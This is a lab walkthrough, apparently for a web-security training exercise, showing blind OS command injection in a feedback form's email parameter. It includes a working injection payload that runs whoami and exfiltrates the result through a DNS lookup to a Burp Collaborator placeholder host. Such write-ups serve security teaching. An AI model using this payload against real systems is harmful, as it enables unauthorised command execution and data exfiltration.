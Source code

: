### Blind OS command injection with out-of-band data exfiltration : PRACTITIONER

---


Heading to the feedback submission page with BurpSuite PROXY HTTP History running.

![](./screenshots/submit.png)

After submitting feedback, open the sent `POST` request and send it to repeater for further analysis.

![](./screenshots/post-1.png)

> We need to trigger an out of band interaction using one of these parameters.

This will be done by performing a dns lookup of the burp collaborator domain, with a subdomain containing the data we need, `whoami`.
- Inserting this payload into all the parameters one by one.
```
mins||nslookup+`whoami`.<BURP-COLLAB-PAYLOAD>||
```
- The <BURP_COLLAB_PAYLOAD> can be added by right clicking and then choosing add the burp collaborator payload.

> Using the `email` parameter is the only one that works.

Sending the request, we get no response, but if we check the collaborator, we see that there was a post request sent with a DNS lookup.

![](./screenshots/colab-1.png)

> We see that the command was executed and the prepended to the domain of the collaborator. Since we control this server, we see any domain lookups for it, confirming that the email parameter is vulnerable to command injection that is blind and detectable via OAST techniques.

```
peter-h8mnrR
```

---
